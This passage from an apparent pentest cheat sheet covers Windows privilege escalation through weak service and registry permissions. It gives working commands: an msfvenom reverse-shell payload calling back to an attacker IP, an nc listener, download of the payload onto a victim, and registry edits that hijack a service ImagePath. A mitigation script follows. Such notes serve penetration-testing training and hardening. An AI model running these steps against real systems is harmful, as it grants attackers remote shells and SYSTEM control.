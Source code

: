 ```powershell
$ iwr -Uri http://<ip>:<port>/Service.exe -Outfile "C:\Program Files\Vulnerable Service1\Service.exe"
$ sc stop "Vulnerable Service 1"
$ sc start "Vulnerable Service 1"
```
## Weak Registry Permissions
### Enumeration
```powershell
Get-Acl -Path "HKLM:\SYSTEM\CurrentControlSet\Services\Vulnerable Service 4" | fl
reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Vulnerable Service 4"
```
### Tool Enumeration
```powershell
SharpUp.exe audit ModifiableServiceRegistryKeys
```
### Exploitation
```bash
on attacker
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.15 LPORT=9001 -f exe > Service4.exe
nc -lnvp 9001

on victim:
iwr -Uri http://<ip>:<port>/Service4.exe -Outfile C:\Windows\Tasks\Service4.exe
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Vulnerable Service 4" /t REG_EXPAND_SZ /v ImagePath /d "C:\Windows\Tasks\Service4.exe" /f
sc start "Vulnerable Service 4"
```

### Mitigation
```powershell
Automated Script
# Define the registry key path
$regKey = "HKLM:\SYSTEM\CurrentControlSet\Services\Vulnerable Service 4"

# Get the current ACL (Access Control List) for the registry key
$acl = Get-Acl -Path $regKey

# Specify the account and access rights to be removed
$account = "BUILTIN\Users"
$accessRights = [System.Security.AccessControl.RegistryRights]::FullControl

# Create a new access rule to remove FullControl
$accessRule = New-Object System.Security.AccessControl.RegistryAccessRule($account, $accessRights, "Deny")

# Remove the access rule from the ACL
$acl.RemoveAccessRule($accessRule)

# Set the modified ACL back to the registry key
Set-Acl -Path $regKey -AclObject $acl
```
## Weak Service Binary Permissions
### Enumeration
```powershell
icacls "C:\Program Files\CustomSrv2\Service2.exe"
```